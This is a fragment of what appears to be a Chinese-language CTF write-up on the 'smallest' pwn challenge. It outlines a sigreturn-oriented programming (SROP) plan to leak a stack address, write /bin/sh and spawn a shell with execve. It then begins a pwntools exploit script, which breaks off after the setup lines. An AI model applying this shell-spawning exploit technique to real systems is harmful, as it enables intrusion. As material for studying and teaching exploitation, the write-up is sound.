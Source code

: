 ![](./smallest_2.png)
![](./smallest_3.png)
*   我们的攻击思路
    - 首先利用read的返回值放在rax我们可以设置rax为1调用write函数打印出栈的地址用于写入/bin/sh
    - 第一次调用SROP写入/bin/sh
    - 第二次调用SROP执行execve("/bin/sh", 0, 0)
>   payload如下
```python
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
p = process('./smallest')

start    = 0x4000B0
sys_read = 0x4000B3
```